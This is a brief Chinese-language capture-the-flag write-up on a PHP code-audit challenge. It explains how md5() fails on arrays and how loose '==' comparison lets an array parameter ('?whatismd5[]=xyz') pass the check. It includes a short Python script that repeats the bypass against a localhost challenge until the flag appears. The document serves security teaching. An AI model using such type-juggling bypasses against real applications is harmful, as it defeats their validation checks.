

# 代码审计

## **[目的]**
* 了解md5加密
* 了解PHP弱类型，“==”，“===”的区别

## **[原理]**
md5函数不能对数组进行处理

## **[步骤]**

分析源码，本题的关键在于判断语句
```
if($_SESSION['JNsec']==($whatismd5[0].$whatismd5[1].$whatismd5[1]) && substr(md5($whatismd5),5,4)==0)
```
$_SESSION['JNsec']的初值为`xyz`，时间限制为30秒。

当$_SESSION['JNsec']的值和whatismd5的前三个字符相等，且whatismd5的中间一段字符 **==** 0时，计数器+1, $_SESSION['JNsec']更新为随机的三个字母。

md5不能处理数组，所以可以用数组绕过。
可以构造`?whatismd5[]=xyz`

当累计十次判断为TRUE时，输出flag。

如果手速和网速快可以手动。
也可以写个脚本：
```
import requests
s=requests.session()

url='http://localhost:88/?whatismd5[]='

a=s.get(url+'xyz')
for i in range(11):
    b=s.get(url+a.text[:3])
    a=b
    if 'JNCTF{' in a.text:
        print(a.text)
```


## **[工具]**
无